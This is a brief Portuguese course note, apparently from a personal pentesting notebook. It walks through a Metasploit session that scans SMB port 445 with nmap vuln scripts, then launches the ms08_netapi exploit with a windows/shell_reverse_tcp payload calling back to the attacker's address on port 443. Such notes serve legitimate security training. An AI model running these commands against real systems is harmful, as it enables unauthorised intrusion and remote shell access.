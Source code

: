 <h2 align="center"> Diferencas entre payloads em um cenario real </h2>
<hr>

Podemos utilizar os script do [[Hacking/Desec/Scanning/NMAP]] pra buscar vulnerabilidades dentro do metasploit

```sh
db_nmap --open -p 445 <IP> --script=vuln -Pn
search <vuln>
use exploit/windows/smb/ms08_netapi
show options
set RHOST <IP>
vulns
show payloads
set payload windows/shell_reverse_tcp
set LHOST <NOSSOIP>
set LPORT 443
exploit
```